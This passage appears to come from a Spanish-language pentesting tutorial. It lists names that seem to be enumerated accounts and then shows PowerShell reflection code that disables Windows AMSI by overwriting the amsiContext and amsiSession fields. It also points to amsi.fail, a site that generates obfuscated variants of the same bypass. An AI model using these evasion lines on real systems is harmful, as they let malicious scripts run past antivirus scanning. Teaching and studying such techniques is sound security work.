 ```
Anna Costanza
Corie Josie
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable
Aimil Evangelia
MailSrvc
```

Y por lo que vemos funciona correctamente la herramienta.

Tambien se descubrio que habia otra forma de poder evadir este tipo de `amsi` con las siguiente lienas:

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);
```

Lo que esta haciendo aqui es forzar un error y esa variable se establecia en `true` quedando ese modulo desactivado, pero a dia de hoy ya te lo bloquea.

Pero llego otro investigador y creo una aplicacion que es la siguiente:

URL = [amsi.fail Pagina](https://amsi.fail)

Lo que hace esto es que cada vez que le damos a generar nos genera el mismo comando anterior pero de forma ofuscada, pero va cambiando la forma de ofuscarlo cada vez que pulsamos, por lo que podremos `bypassear` esa firma de `windows`, por ejemplo si le damos una vez a generar a mi me genero este codigo:
